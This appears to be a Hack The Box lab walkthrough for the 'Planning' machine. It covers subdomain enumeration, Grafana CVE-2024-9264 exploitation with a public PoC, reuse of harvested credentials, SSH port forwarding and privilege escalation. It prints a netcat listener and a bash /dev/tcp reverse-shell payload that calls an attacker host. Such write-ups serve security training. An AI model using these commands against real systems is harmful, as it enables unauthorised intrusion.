 # 🧠 Hack The Box – Planning (Easy)

## 📌 Machine Info
- **Name:** Planning  
- **Difficulty:** Easy  
- **OS:** Linux  
- **IP Address:** 10.10.11.68  
- **Author:** Vishnu S  
- **Completed on:** July 6, 2025

---

## 🔍 Summary

The Planning machine involves:
- Virtual host enumeration  
- Exploiting Grafana (CVE-2024-9264)  
- Docker container escape  
- Privilege escalation via SSH port forwarding and command injection  

![Planning Banner](screenshots/Planning-banner.png)

---

## 🛠 Tools Used
- `nmap` – Port scanning  
- `ffuf` – Subdomain enumeration  
- `python3` – Exploit execution  
- `netcat` – Reverse shell listener  
- `ssh` – Remote login & port forwarding  
- `linPEAS` – Privilege escalation enumeration  

---

## 🧾 Walkthrough

### 1️⃣ Initial Enumeration

```bash
nmap 10.10.11.68
````

![Nmap Output](screenshots/nmap-scan.png)
---

### 2️⃣ Virtual Host Setup

Modified `/etc/hosts`:

```
10.10.11.68 planning.htb
```

![Host Added](screenshots/added-host.png)
![Planning Page](screenshots/planning.png)
---

### 3️⃣ Subdomain Discovery

Used FFUF to find subdomains:

```bash
ffuf -u http://planning.htb -H "Host:FUZZ.planning.htb" \
-w /usr/share/seclists/Discovery/DNS/namelist.txt -fs 178 -t 100
```

![FFUF Scan](screenshots/fuff-scan.png)
![Host Added Again](screenshots/added-host1.png)

Discovered: `grafana.planning.htb`

---

### 4️⃣ Grafana Login

Visited: `http://grafana.planning.htb`

Used credentials:

```
Username: admin
Password: 0D5oT70Fq13EvB5r
```

![Login Page](screenshots/grafana-login.png)
![Version Info](screenshots/grafana-version.png)

---

### 5️⃣ Exploiting Grafana (CVE-2024-9264)

Started a reverse shell listener:

```bash
nc -lvnp 9001
```

![Listener](screenshots/listener.png)

Ran exploit:

```bash
python3 poc.py --url http://grafana.planning.htb \
--username admin \
--password 0D5oT70Fq13EvB5r \
--reverse-ip 10.10.14.96 \
--reverse-port 9001
```

![Exploit Script](screenshots/python-exploit.png)
![Reverse Shell Access](screenshots/exploited.png)

✅ Reverse shell obtained!

---

### 6️⃣ Docker Escape

Checked environment variables:

```bash
env
```

Found:

```
Username: enzo
Password: RioTecRANDEntANT!
```

![Found Creds](screenshots/found-username-password.png)

SSH login:

```bash
ssh enzo@10.10.11.68
```

![SSH Access](screenshots/ssh.png)

Captured user flag:

```bash
cat /home/enzo/user.txt
```

![User Flag](screenshots/userflag.png)

---

### 7️⃣ Privilege Escalation

Ran linPEAS and discovered crontab entry:

```bash
cat /opt/crontabs/crontab.db
```

Found:

```
Username: root
Password: P4ssw0rdS0pRi0T3c
```

![LinPEAS Output](screenshots/linpeas-crontab.png)
![Root Credentials](screenshots/found-credentials.png)

---

### 8️⃣ Internal Service & Reverse Shell to Root

Discovered local port 8000:

![Local Port](screenshots/port-locally.png)

Port forwarding with SSH:

```bash
ssh -L 8000:localhost:8000 enzo@planning.htb
```

![Port Forwarding](screenshots/port-forwarding.png)

Visited: `http://localhost:8000`

![Visited 8000](screenshots/visited8000.png)

Injected reverse shell payload:

```bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.96/8888 <&1'
```

![Injection](screenshots/injected.png)

Set up listener:

```bash
nc -lvnp 8888
```

![Listener Ready](screenshots/setup-listener.png)

Got root shell! 🎉

![Root Shell](screenshots/gained-rootshell.png)

---

## 🏁 Flags Captured

```bash
cat /home/enzo/user.txt
cat /root/root.txt
```

![User Flag](screenshots/user-flag.png)
![Root Flag](screenshots/root-flag.png)

---

## ✅ Conclusion

The Planning machine demonstrated a solid exploitation path:

* Default credentials in Grafana
* Environment variable leaks in Docker
* SSH access and internal port forwarding
* Reverse shell injection via internal admin panel

---

## 🔗 References

* [CVE-2024-9264 – Grafana RCE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-9264)
* [Exploit PoC by z3k0sec](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit)
* [HackTricks Book](https://book.hacktricks.xyz/)
* [Medium Write-up](https://medium.com/@ypopova3/planning-hackthebox-fd3d5fcb8fc7)

